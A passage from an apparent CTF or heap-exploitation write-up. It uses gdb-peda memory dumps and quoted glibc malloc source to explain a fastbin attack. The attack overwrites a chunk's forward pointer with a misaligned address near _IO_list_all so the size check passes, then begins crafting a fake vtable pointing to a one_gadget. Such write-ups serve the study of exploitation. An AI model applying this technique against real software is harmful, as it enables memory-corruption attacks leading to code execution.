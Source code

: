 {% highlight bash %}
gdb-peda$ x/10xg 0x7fd76f205520-0x30
0x7fd76f2054f0 <_nl_global_locale+208>: 0x00007fd76efced9a      0x00007fd76efced9a
0x7fd76f205500 <_nl_global_locale+224>: 0x00007fd76efced9a      0x0000000000000000
0x7fd76f205510: 0x0000000000000000      0x0000000000000000
0x7fd76f205520 <_IO_list_all>:  0x00007fd76f205540      0x0000000000000000  <--- target
0x7fd76f205530: 0x0000000000000000      0x0000000000000000
{% endhighlight %}

So, we just overwrite `D->FD` with `0x7fd76f205510`, right? **WRONG!**

**If we do that, `malloc()` will fail when we try to get it to return `0x7fd76f205520` because the size of the chunk that is about to be reallocated, aka the "victim" chunk, has to match the requested size of the `malloc()`!!!**

{% highlight C%}
if (__builtin_expect (fastbin_index (chunksize (victim)) != idx, 0))
{
    errstr = "malloc(): memory corruption (fast)";
errout:
    malloc_printerr (check_action, errstr, chunk2mem (victim), av);
    return NULL;
}
{% endhighlight %}

However, we can get around this by overwriting `D->FD` with `0x7fd76f2054fd` which seems like a strange offset, but it works because it makes it so that the size of our requested chunk at `0x7fd76f2054fd` is now `0x7f`, which fits the size of our requested `malloc()` size of `0x68`!

{% highlight bash %}
gdb-peda$ x/8xg 0x7fd76f205520-0x30+0xd
0x7fd76f2054fd <_nl_global_locale+221>: 0xd76efced9a00007f      0x000000000000007f <-- _IO_list_all-0x30+0xd
0x7fd76f20550d: 0x0000000000000000      0x0000000000000000
0x7fd76f20551d: 0xd76f205540000000      0x000000000000007f
0x7fd76f20552d: 0x0000000000000000      0x0000000000000000
{% endhighlight %}

After corrupting `D->FD`, our `D` chunk looks like this:
{% highlight bash %}
gdb-peda$ x/8xg 0x00005643a4b7c3e0
0x5643a4b7c3e0: 0x0043434343434343      0x0000000000000071 
0x5643a4b7c3f0: 0x00007fd76f2054fd      0x4444444444444444 <-- D->FD = _IO_list_all-0x30+0xd
0x5643a4b7c400: 0x4444444444444444      0x0000000044444444
0x5643a4b7c410: 0x0000000000000000      0x0000000000000000
{% endhighlight %}


## Craft fake vtable
For the next part of our attack, we will craft a fake vtable. 

Actually, the only thing we need to do is place our one_gadget on the heap and just set our fake vtable addr = that heap address-0x18
